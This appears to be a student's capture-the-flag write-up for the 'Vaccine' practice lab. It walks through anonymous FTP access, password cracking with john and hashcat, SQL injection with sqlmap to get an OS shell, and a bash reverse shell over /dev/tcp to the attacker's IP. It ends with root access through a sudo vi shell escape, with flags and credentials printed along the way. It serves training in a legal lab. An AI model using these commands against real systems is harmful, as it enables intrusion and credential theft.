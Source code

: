 
### **Starting Labs**

##### **Section 3:**
###### Vaccine:
		 --website enum--
run nmap to find open ports
``nmap -sC -sV {ip}``
we find three ports that are open, the only relative one we can use right now is the ftp port, it states that it accepts ``anonymous`` as a login.

```	    
		    ftp {ip}
			anonymous/{no pass}
```
After logging in we see what we are working with,  we run ls and thats when we find ``backup.zip `` so we export it to our device using ``get``, and go back to our device.
```
			get backup.zip
			quit
```

We get the file from the ftp port we start working on it, after opening it we are prompted to enter a password which we don't know. So we convert the zip file to a format that john can interact. we also use the rockyou wordlist that is zipped up so we also need to unzip that.
```
		
		 zip2john backup.zip > hashes

		 gzip -d rockyou.txt.gz

		 john -wordlist=/usr/share/wordlists/rockyou.txt hashes
```

We cracked the password so now we can see it using the following john command:

```
		john --show hashes
```

Note password was 741852963, it will be in the following format bellow.
			
back.zip:{passwd}:: {...}			
			
```
		unzip backup.zip 
			enter password$:741852963
			
```

Entering the password successfully unzips the files for us. So now we read one of the two files that is outputted to us from unzipping the file.

```
cat index.php
```

There is a section that specifies that a password has to be equal to something when its md5 encrypted.

```
md5(passwd)==="2cb42f8734ea607eefed3b70af13bbd3"
```

To verify this we take the use a website called "https://hashes.com/en/tools/hash_identifier" to determine the encryption used. or we can use the ``hashid`` command verify this for us.

```
		 hashid 2cb42f8734ea607eefed3b70af13bbd3
```
We take the Cipher text and input it to a file we call hash to decrypt using ``hashcat``. We use -a to signify attack mode and the 0 after it stands for Straight. we use -m 0 to specify the hash we are decrypting, 0 stands for MD5 according to ``hashcat``'s manual.
```
		 echo '2cb42f8734ea607eefed3b70af13bbd3' > hash
		
		hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt
```
			
after decrypting it qwerty789 is our password. 
it is in the following format:
{cipher:plaintxt(password)}
ex: 
2cb42f8734ea607eefed3b70af13bbd3:qwerty789

now that we have the website password we can login through webpage using these credentials.

		user: admin
		password: qwerty789
		
---Establishing foothold via Dashboard search ---
		Search bar only useful thing. so we use sql map with our cookies which we got using inspect element.
		
Get sql map and find vulnerabilities:

```
		sqlmap -u 'http://{ip}/dashboard.php?search=' --cookie="PHPSESSID=4t35be7jpviob87fi0crbl04o7"
```
		
We found that the search bar is vulnerable so we add a os shell to our cmd
		
```
		sqlmap -u 'http://10.129.95.174/dashboard.php?search=any' --cookie="PHPSESSID=4t35be7jpviob87fi0crbl04o7" --os-shell
```

now we need to find our own  ip for the shell we are trying to use so we open a new bash terminal.
		
in a new terminal, we type ``hostname -I`` to get our ip:

```
HOSTNAME -I
```

We then start listening on a specific port using netcat:
-l: listening
-v: verbose
-n: ip 
-p: port

```
Sudo nc -lvnp 1234
```

Go back to our old terminal, and type the following command to connect a bash terminal that we are spawning to our nc port that we setup, this will act as a bash shell for us. 

**the shell is unstable and will randomly disconnect sometimes, that is normal. If it happens just repeat the steps until we find another method to gain control**

```
bash -c "bash -i >& /dev/tcp/{your_IP}/{port} 0>&1"
```
After establishing the shell, we enter the following:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
```

After looking through some directories we find user.txt file in '/var/lib/postgresql/'


			cat user.txt
		
		**>>ec9b13ca4d6229cd5cc1e09980965bf7**
		
that is our user flag which we will need to submit after we are done with the lab.

we continue digging and searching other directories, after going back a few directories we find the /var/www directory which has the website pages. 

we find a few files and after reading a few of them using ```cat ``` we find the following line in "dashboard.php"

```
try {
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres
password=P@s5w0rd!");
}
```

We can see that the postgres password is listed as ``
```P@s5w0rd!```. So we can use this to login via ssh which will give us a more stable shell as opposed to using os-shell and spawning our own bash terminal. 

we can now connect via SSH 

```
ssh postgres@{ip}
```

and then enter the password ``` P@s5w0rd!``` .

after running ```sudo -l``` to get the permissions we have this is the output:

```
postgres@vaccine:/$ sudo -l
[sudo] password for postgres: 
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf

```

the following line at the end of the output 
```  
(ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
signifies we have sudo access to run  
```
/bin/vi 
```
on 
```
/etc/postgresql/11/main/pg_hba.conf
```

so to check the file we run the command
```
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

after opening the vi file we can type in the following command to set the shell and then run it:
```
:Set shell=/bin/sh

:shell
```
since we ran the shell with sudo privileges we now have root access, we can verify this by typing ```
```
whoami
```
we should get "root" in the response.

![[VqKjp5f.png]]

after verifying we are root, we can look at the directory we are in and try to navigate the the root folder we saw earlier
```
cd root

ls 

cat root.txt
```
after reading the root file we get the root flag:
```
dd6e058e814260bc70e9bbdef2715849
```


Now we have the user and root flag:
User: ec9b13ca4d6229cd5cc1e09980965bf7
Root: dd6e058e814260bc70e9bbdef2715849

-------

###### Unified:

---website enum---
